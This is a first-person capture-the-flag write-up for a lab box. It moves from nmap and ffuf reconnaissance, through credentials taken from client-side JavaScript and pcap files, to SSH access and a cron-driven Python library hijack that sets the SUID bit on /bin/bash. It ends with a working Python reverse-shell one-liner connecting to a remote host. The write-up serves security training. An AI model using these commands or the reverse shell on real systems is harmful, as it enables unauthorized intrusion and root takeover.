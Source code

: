 I started with "sudo ping -c4 10.10.226.228" to make sure I had a connection with the box.
````
PING 10.10.226.228 (10.10.226.228) 56(84) bytes of data.
64 bytes from 10.10.226.228: icmp_seq=1 ttl=63 time=53.6 ms
64 bytes from 10.10.226.228: icmp_seq=2 ttl=63 time=54.3 ms
64 bytes from 10.10.226.228: icmp_seq=3 ttl=63 time=54.1 ms
64 bytes from 10.10.226.228: icmp_seq=4 ttl=63 time=55.7 ms
````

Everything seems to be working so let's start with a basic nmap scan.
````
nmap -p- 10.10.226.228 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:07 EEST
Nmap scan report for 10.10.226.228
Host is up (0.059s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
37370/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.69 seconds
````

Let's refine that a bit for more information.
````
nmap -sVC -p22,80,37370 10.10.226.228
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 10:08 EEST
Nmap scan report for 10.10.226.228
The host is up (0.057s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
````

So there is SSH, Apache HTTP server, and FTP server with open ports.
Let's check the webserver first as we do not have credentials for SSH or FTP.
The website seems to be for a photography company and there are pricing and gallery pages.
I used ffuf to find more directories "ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.10.226.228/FUZZ -ic -t 70"
Directories found were "gallery, static, pricing". I then used to find more directories with ffuf.
From the "static" directory ffuf found 18 photos and 1 extra with the name "00" which was a much smaller file than the photos.
````
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
````

The directory found is a login page. I had ZAP running in the background to catalog everything I went to and the login page loaded "dev.js" which has a function that compares cleartext credentials.
If you log in with the credentials that the function uses for comparison it opens the "/devNotes37370.txt" file with the following:
````
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
````

As the notes hint, let's try if the plaintext credentials work for the FTP server!
"ftp 10.10.226.228 37370" with the credentials gets us in and there are three .pcapng files.
Downloaded them to my Kali and inspected them with Wireshark.
I spent a while for looking anything interesting in the TCP stream but actually interesting information was in HTTP requests.
There was one post request in the last file for a login page and as the protocol was not encrypted, the credentials were in plaintext.
I used the credentials to try to log in to the box with SSH and it worked!
There was "user.txt" in the valley user's home folder.
I once again spent way too long looking for ways to escalate privileges and then just tried to "su siemDev" with a password from "dev.js" and it worked.
So now I have access to "valleyDev" and "siemDev" accounts.
So there was a "valleyAuthenticator" elf binary in "/home" folder so I investigated it.
There probably is a better way to figure out what is going on in the binary but I transferred it to Kali and used "strings valleyAuthenticator".
I got a long list of strings which I grepped for "user" and "pass*" and found some cleartext username of sorts and a password gibberish.
My eye caught a few lines above that looked like hexadecimal strings. Used crackstation.net to see if I was correct and it gave a partial match for one of the lines.
I combined two lines and it's a match! I tried the newly found password for the "valley" user and it worked.

Earlier trying to figure out privilege escalation I found a Python script that runs every minute with root privileges from "/etc/crontab".
Again I tried for a while to find a way to get the script to execute a command by editing the image files but to no avail.
What I should have done is check for what access "valleyAdmin" group has that "valley" user was in. 
"/photos/script/photosEncrypt.py" script imports "base64" from "/usr/lib/python3.8" and I have write access to it as "valleyAdmin" group member. 
So I added the line "os.system("chmod u+s /bin/bash")" and as it runs as a root it edited the "bash" binary so I could spawn a privileged shell.
There was a "root.txt" in "/root" folder.

I also spent some extra time to get a reverse shell one-liner working! Here it is: 
````
import sys,socket,os,pty; s=socket.socket(); s.connect(("10.10.10.10",1234)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/bash")
````
